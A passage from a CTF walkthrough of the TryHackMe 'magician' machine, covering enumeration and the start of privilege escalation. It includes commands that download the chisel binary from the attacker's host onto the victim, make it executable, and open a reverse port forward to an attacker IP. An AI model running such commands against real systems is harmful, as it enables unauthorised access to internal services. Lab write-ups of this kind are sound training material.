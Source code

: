 ## USER FLAG

Just navigate to the home directory :)

## PRIVESC

What do we have in the home directory?
```bash
magician@magician:~$ ls -l
total 17168
-rw-r--r-- 1 root     root     17565546 Jan 30 11:55 spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
-rw-r--r-- 1 magician magician      170 Feb 13 07:19 the_magic_continues
drwxr-xr-x 2 root     root         4096 Feb  5 05:14 uploads
-rw-r--r-- 1 magician magician       24 Jan 30 11:30 user.txt
```
Interesting, lets check out uploads and `the_magic_continues`:
```bash
magician@magician:~$ cat the_magic_continues 
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```
Uhm, okay? The oracle and locally listening part show us we should thoroughly search the machine!
```
find /  -type f -user root -perm /4000 2>/dev/null
```
Gives us nothing. However running `nestat -l` to look for local listening ports showed something interesting:
```
magician@magician:~$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:6666          0.0.0.0:*               LISTEN 
```
Port 6666 on local? Whats there?! Time to port forward, and since I hate doing it manually its time to use [chisel](https://github.com/jpillora/chisel). For kali just simply `apt-get install chisel` and then copy over the binary to the victim. On your machine:
```
cd /path/where/chisel/is
python3 -m http.server 8080
```
on the victim:
```
wget IP:8080/chisel
chmod +x chisel
```
Time to portforward now, on your host:
```
root@kali:~/CTFs/TryHackMe/magician# chisel server --reverse --port 9002
```
And then on the victim machine:
```
./chisel client 10.8.147.71:9002 R:9001:127.0.0.1:6666
```
Now you should be able to access the website from your browser at `localhost:9001`!</br>